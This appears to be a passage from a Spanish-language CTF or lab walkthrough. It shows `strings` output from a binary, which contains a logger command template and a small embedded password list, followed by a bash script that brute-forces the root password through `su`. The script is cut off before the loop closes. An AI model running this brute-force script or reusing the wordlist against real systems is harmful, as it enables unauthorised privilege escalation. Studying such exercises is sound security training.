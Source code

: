 ``` bash
__libc_start_main
stderr
fprintf
getopt
__cxa_finalize
fclose
fwrite
strncmp
libc.so.6
GLIBC_2.4
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
[INFO] Preparando para registrar acci
n de tarea.
/usr/local/bin/system_logger --source task_manager --event "TASK_EXECUTION" --details "%s"
[%ld] Acci
n de tarea con detalles iniciales (sanitizados) '%s' procesada.
[ERROR] No se pudo abrir el log de salida
password
123456
qwerty
admin
guest
root
user
hannah
default
1234
```

y veo com que tiene un pequeño wordlist incluido tal vez copiando me esas contraseñas en un fichero diccionario.txt y creando me otro script pueda conseguir el password de root.

```bash
#!/bin/bash

# Archivo con lista de contraseñas (una por línea)
WORDLIST="dic.txt"

# Usuario al que intentar acceder
USER="root"

# Archivo para guardar contraseñas probadas
LOGFILE="su_bruteforce.log"

# Intentar cada password
while IFS= read -r password; do
    echo "Probando contraseña: $password"

    # Intentar hacer su con password (timeout 5s para no colgar)
    echo "$password" | timeout 5 su -c "id" $USER 2>/dev/null >/dev/null

    # Revisar código de salida (0 = éxito)
    if [ $? -eq 0 ]; then
        echo "Contraseña encontrada: $password"
        echo "$password" > success_password.txt
        exit 0
    fi

```